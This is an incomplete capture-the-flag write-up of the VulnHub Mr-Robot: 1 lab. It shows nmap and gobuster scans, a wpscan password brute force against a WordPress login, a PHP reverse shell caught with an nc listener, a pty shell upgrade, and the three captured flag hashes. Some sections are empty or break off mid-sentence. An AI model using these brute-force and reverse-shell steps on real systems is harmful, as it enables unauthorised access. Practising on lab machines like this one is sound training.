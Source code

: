 # VulnHub Mr.Robot Write - Up
## Overview
- **Machine Name:** [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/ "Mr-Robot: 1 on Vulnhub")
- **Platform:** VulnHub
- **Difficulty:**  Beginner-Intermediate
- **Date Completed:** August 17, 2025
- **Tools Used:** Kali Linux, nmap, GoBuster, WPScan nano, Python
## Objectives
- Capture all three flags
- Learn and demonstrate exploitation and escalation techniques

---

## Methodology

### 1. Information Gathering
~~~

sudo nmap -sS -T4 10.38.110-120 

~~~
- Identify the ports on the machine to evaluate the type of machine  
 - Port 80 (HTTP) open -> Apache web server detected  
 - Port 443 (HTTPS) open  
 - Port 22 (SSH) open  
### 2. Enumeration (Flag 2)
~~~

gobuster dir -u http://10.38.1.111 -w/usr/share/dirbuster/wordlist/directory -list-2.3-small.txt

~~~
- Swept the machines location to find additional dir and files using GoBuster  
- /robots.txt -> contained the extension which led to the first flag as well as a dictionary  
- WordPress login page discovered -> potential attack vector with the dictionary list discovered in robots.txt  
~~~

cat fsociety.dic | sort -u> filtered.dic

~~~
- Sorted the dictionary list to remove redundancies and order them alphabetically creating the new filtered.dic

### 3. Exploitation (Flag 2)
~~~

wpscan --url http://10.38.1.111/wp-login/php -U 'elliot' -P filtered.txt

~~~
- Ran the filtered text against the password with the username elliot
~~~

locate php-re

gedit php-reverse-shll.php

~~~
- Locate and edit the contents of a reverse-php-shell which will allow us access into the

~~~

nc -lvnp 443

~~~
- We trigger the script by navigating to a URL that does not exist  
 - Within the machine, we were able to locate the /home/robot directory -> We find two files a .raw-md5 and a .txt  
 - We crack the hash to find the password for robot  
 - Now that we have the password we can login to the Mr.Robot and read .txt  
### 4. Privilege Escalation (Flag 3)
-
~~~

python -c 'import pty;pty.spawn("/bin/bash")'

su robot

~~~
- We

### 5. Enumeration (Flag 3)

### 6. Exploitation (Flag 3)
---

## Flags Captured  
Flag 1: 073403c8a58a1f80d943455fb30724b9  
Flag 2: 822c73956184f694993bede3eb39f959  
Flag 3: 04787ddef27c3dee1ee161b21670b4e4  
---

## Lessons Learned
Protection against rainbow tables  
- Password salting  
- Login attempt limit  
---

## References
Mahcine on Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/
Video Tutorial: https://www.youtube.com/watch?v=D_aiSOmC6V8
